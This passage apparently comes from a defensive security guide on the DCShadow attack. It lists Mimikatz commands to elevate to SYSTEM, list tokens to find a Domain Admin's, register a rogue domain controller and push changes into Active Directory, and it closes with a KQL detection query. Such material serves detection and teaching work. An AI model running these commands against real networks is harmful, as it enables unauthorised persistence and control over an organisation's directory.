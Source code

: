 1.	Switch to `SYSTEM`
    - Run the following commands in Mimikatz. You will see in the output that you are running in SYSTEM context.

    ```cmd 
    privilege::debug
    token::elevate
    ```

2.	List all tokens and find the Domain Admin account’s token ID
    - Start listing all tokens and remember the ID of a Domain Admin account, we will use that ID later.
    
    ```cmd
    token::list
    ```

3.	Register a Rogue DC using Mimikatz
    - Use Mimikatz to register a rogue change in AD, in the example below we are changing the description of the object in AD.

    ```cmd
    lsadump::dcshadow /object:CN=Administrator,CN=Users,DC=domain,DC=com /attribute:description /value:"DCShadow Test"
    ```

4.	Push Malicious Changes to AD
    - Pushing the changes to AD requires a replication, therefore we need to open a new Mimikatz command prompt as our compromised Domain Admin account. For example, push the description changes that we did earlier.

    ```cmd
    lsadump::dcshadow /push
    ```

### Detection
Due to the sophisticated nature of DCShadow, we may need to employ a variety of KQL queries to effectively monitor for signs of this attack. Below is an example that concentrates on tracking event logs for any unusual domain controller activities.

```kql
let startDateTime = ago(1d);
let endDateTime = now();
SecurityEvent
| where TimeGenerated between (startDateTime .. endDateTime)
| where EventID in (4742, 4662, 4929, 4931)
| where AccountName !contains "$" // Filtering out service accounts generally
| extend ObjectModified = tostring(TargetObject)
| where ObjectModified contains "CN=Domain Controllers"
| project TimeGenerated, EventID, AccountName, ComputerName, ObjectModified, Activity
| distinct TimeGenerated, AccountName, ComputerName, ObjectModified, EventID, Activity
```

## Further reading
- The Definitive Guide to KQL: Using Kusto Query Language for operations, defending, and threat hunting – https://aka.ms/KQLMSPress/Store  
